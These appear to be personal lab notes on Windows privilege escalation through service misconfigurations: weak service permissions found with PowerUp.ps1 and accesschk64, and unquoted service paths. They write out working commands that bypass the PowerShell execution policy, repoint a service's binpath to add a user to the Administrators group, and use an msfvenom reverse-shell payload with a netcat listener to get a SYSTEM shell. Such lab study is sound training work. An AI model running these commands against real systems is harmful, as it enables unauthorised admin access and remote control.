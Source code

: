
### binPath

Binary path, or `binpath`, this is another check in PowerUp.ps1.  You would run it the same way here.

```
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

That will be shown in the following output

![[Pasted image 20241028021815.png]]

The big part here is that the fact that we can restart it is true.

You can also use access check

`accesschk64.exe -uwcv Everyone *`

And if you find anything interesting, dig further with access check as well

`accesschk64.exe -uwcv <servicename>`   - switch out the servicename for the name of the service you want more info on.
	-u  -This is used to suppress errors, showing only things that come back with only the positive findings.
	-w  - Only show items that have write access.  Things that we can modify.
	-c  - Says to display the service name for any found services
	-v  - is out good old buddy, verbose :)
		The `Everyone *` runs that check on the EVERYONE group against all services (`*`)

![[Pasted image 20241028022007.png]]

Here, we can see that everyone has RW access on this service to change the config.

Now we're going to query the service, change a settting, and drop ourselves (`user`) into the Admins group.

```
sc query <servicename>
sc config <servicename> binpath= "net localgroup administrators user /add"
sc start <servicename>
```

![[Pasted image 20241028022824.png]]

Then when we start the service, here daclsvc, we get the following change.

![[Pasted image 20241028023044.png]]

Here, we notice that the first time we check the Admin group, user is not there.  The second time we check after starting the service, user is in the Admin group.  You'll also notice that you get an error when trying to start the service.  That is because the filepath that was there before was swapped out to our command so the exe was not there to start the service.

### Unquoted Service Path

What you're looking for here is a service path that is not in quotes and has a space in it.  Windows will try to run a file if the service path is not quoted and there is a space.  For example...

C:\Windows\Start Menu\Programs  - Windows will try to run C:\Windows\Start.exe before it moves on to the Start Menu and so on.  If you can drop a file named start.exe in the Windows folder, windows will run it if the file path is not in quotes in the service path field.

![[Pasted image 20241028024216.png]]

In real life we would likely report all of these.  Here we're just focused on the `unquotedsvc`.

Here, we're going to create a payload with msfvenom to connect to a netcat session.

The only change is we change the payload from
	`windows/meterpreter/reverse_tcp`
	to
	`windows/shell_reverse_tcp`  - actually had to try a couple different payloads here to get this to work.  But this one finally did it.

Keep all the rest of the options the same and use netcat instead of metasploit and start up your nc listener and then start the service on the victim machine.

![[Pasted image 20241028030250.png]]

And now we have a NT AUTHORITY\SYSTEM shell :)